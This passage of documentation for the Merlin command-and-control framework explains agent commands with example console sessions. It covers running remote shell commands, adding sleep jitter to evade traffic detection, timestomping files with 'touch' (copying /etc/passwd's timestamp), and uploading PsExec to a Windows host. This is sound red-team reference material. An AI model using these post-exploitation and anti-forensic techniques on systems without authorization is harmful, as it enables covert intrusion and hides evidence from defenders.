    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe "Get-Service -Name win* -Exclude WinRM | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe "Get-Service -Name \"win*\" -Exclude "WinRM" | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe 'Get-Service -Name \'win*\' -Exclude 'WinRM' | fl'

Escape Sequence
^^^^^^^^^^^^^^^

Following along with the Quoted Arguments section above, the ``\`` symbol will be interpreted as an escape sequence.
This is beneficial because it can be used to escape other characters like the pipe symbol, ``|`` .
However, it can work against you when working with Windows file paths and the arguments are not enclosed in quotes.

This command will fail because the ``\`` itself needs to escaped. Notice the error message shows File Not Found:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir C:\Windows\System32
    [-]Created job hBYxRfaRBG for agent 21a0fc5f-14ad-4c43-b41e-57eab1feb0e1
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job hBYxRfaRBG
    [+]  Volume in drive C has no label.
     Volume Serial Number is AC57-CFB9

     Directory of C:\

    File Not Found

To correctly issue the command either escape the ``\`` or enclose the commands in quotes:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir C:\\Windows\\System32

.. _skew:

skew
----

The ``skew`` command is used to introduce a jitter or skew to the agent sleep time to keep traffic from occurring at exact time intervals.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» skew 5
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job lyYQdxckTY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

.. _sleep:

sleep
-----

The ``sleep`` control type is used to change the amount of time that an agent will sleep before checking in again. The default is 30 seconds. The values provided to this command are written in a time format. For example, ``30s`` is 30 seconds and ``60m`` is 60 minutes. There is no response on the CLI after the instruction has been provided to the agent. You can verify the setting was changed using the ``agent info`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sleep 15s
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job npMYqwASOD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

status
------

The ``status`` command is used to simply print if the Merlin Agent is Active, Delayed, or Dead to the screen. This becomes useful when you come back to Merlin after a couple of hours or if you want to see if your shell has died.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» status
    Active
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»

touch
-----

The ``touch`` command is used to duplicate a timestamp from one file to another. This technique is also known as timestomp

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ls -la /tmp/deleteMe.txt
    [-] Created job hEXYmbbGpW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job hEXYmbbGpW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] -rw-rw-r-- 1 rastley rastley 0 Aug  2 20:11 /tmp/deleteMe.txt

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» touch /etc/passwd /tmp/deleteMe.txt
    [-] Created job Canvuiuoxj for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job Canvuiuoxj for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] File: /tmp/deleteMe.txt
    Last modified and accessed time set to: 2020-09-16 07:05:18.245022776 -0400 EDT

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ls -la /tmp/deleteMe.txt
    [-] Created job gTFZbcgeJW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job gTFZbcgeJW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] -rw-rw-r-- 1 rastley rastley 0 Sep 16  2020 /tmp/deleteMe.txt

upload
------

The ``upload`` command is used to upload a file *from* the Merlin server *to* the host where the Merlin agent is running. The command is called by proving the location of the file on the Merlin server followed by the location to save the file on the host where the Merlin agent is running.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Enclose file paths containing a space with quotation marks (e.g.,. ``"C:\\Windows\\Program Files\\"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» upload C:\\SysinternalsSuite\\PsExec.exe C:\\Windows\\PsExec.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job vXJsZdZLPP for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

uptime
------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``uptime`` command uses the Windows API GetTickCount64 method to determine how long the host has been running.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» uptime
    [-] Created job GJwrXttowA for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job GJwrXttowA for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    System uptime: 853h31m14.921s
